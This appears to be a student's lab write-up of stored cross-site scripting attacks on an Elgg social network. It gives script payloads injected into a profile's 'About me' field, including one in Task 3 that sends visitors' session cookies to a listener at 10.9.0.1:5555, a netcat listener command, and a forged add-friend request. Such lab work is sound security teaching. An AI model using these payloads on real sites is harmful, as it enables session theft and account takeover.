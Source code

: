 # TRABALHO REALIZADO NA SEMANA #10

## 3: Lab Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

>The objective of this task was to embed a javasript program which will execute when the page is loaded and will display an alter window with 'XSS'.
>
>To do this we will be using Alice as the attacker.
>
>First we will go to Alice's profile page and view the page source. Where we will find her GUID which is 56 (we just make a ctrl+f).
>
>>![week10_0](https://cdn.discordapp.com/attachments/903555414715670578/930966808696070224/unknown.png)
>
>We will use this info in order for the alert to not appear when it is Alice viewing her own profile.
>
>From that we can edit alice's profile, and conveniently for us we can edit the 'About me" section using html.\
>To inject the javascrip code we can use the html '&#60;script&#62;' with our code:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function(){\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert('XSS');\
>>&#8195;&#8195;&#8195;}\
>>&#8195;&#8195;}\
>>&#60;/script&#62;
>
>We will add this code to her account:
>
>![week10_1](https://cdn.discordapp.com/attachments/903555414715670578/930949016714367076/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>![week10_2](https://cdn.discordapp.com/attachments/903555414715670578/930949137761992714/unknown.png)
>
>The attack was successful.

### Task 2: Posting a Malicious Message to Display Cookies

>Basically the task 2 was the same as the first one but with the appearance of the user's cookie.
>
>To do this we need to change the "About me" on the Alice's edit profile, on the "edit HTML" and write de comand in JS:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert(document.cookie);\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_3](https://cdn.discordapp.com/attachments/903555414715670578/930949307614502982/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>>![week10_4](https://cdn.discordapp.com/attachments/903555414715670578/930949424635584513/unknown.png)
>
>The attack was successful.

### Task 3: Stealing Cookies from the Victim's Machine

>On this task the goal is to steal the cookies from someone who visits, in our case, Alice's page.
>
>We edited Alice's profile page 'About me' section to instead of having 'Alert(document.cookie)' have:
>
>>document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');
>
>The '10.9.0.1' is the IP address of the machine while '5555' correspondes to the port location where script will send an HTTP GET to the machine.
>
>The code will be:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_5](https://cdn.discordapp.com/attachments/903555414715670578/930956473574490112/unknown.png)
>
>The next step was to open terminal and to use the command 'nc -lknv 5555' which will allow us to see what we are able to steal. (This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server.)
>
>When we log in with Samy's account and try to visit Alice's profile we will be redirected to a blank page (trying to load the supposed "image" from our code). But what actually happens is that out terminal will have logged his info: 
>
>
>![week10_7](https://media.discordapp.net/attachments/903555414715670578/930956662804713492/unknown.png?width=1376&height=702)
>
>This task was also successful and Alice now has Samy's session cookie.

### Task 4: Becoming the Victim’s Friend

>On this task we simulated a request HTML with JS.
>
>The objective was to simulate an "add friend" request without doing a click on the button.
>
>So we basically need to write JS in the "About Me" section of the Samy:
>
>>![week_8](https://cdn.discordapp.com/attachments/903555414715670578/930962003831439390/unknown.png)
>
>And on the section "sendurl = ...;" we putted the URL of that request.
>
>We adquire that by logging in as Alice, access to Network tab with inspect the page and add Samy as a friend. We've got an GET of that and copied the URL of that.
>
>Now if we enter the Samy's profile, us being Alice, without pressing the "Add Friend" button, this was already pressed.
>
>>![week10_9](https://cdn.discordapp.com/attachments/903555414715670578/930963121818959872/unknown.png)
>>
>>![week10_10](https://cdn.discordapp.com/attachments/903555414715670578/930963266757341254/unknown.png)
>
>The attack was successful.
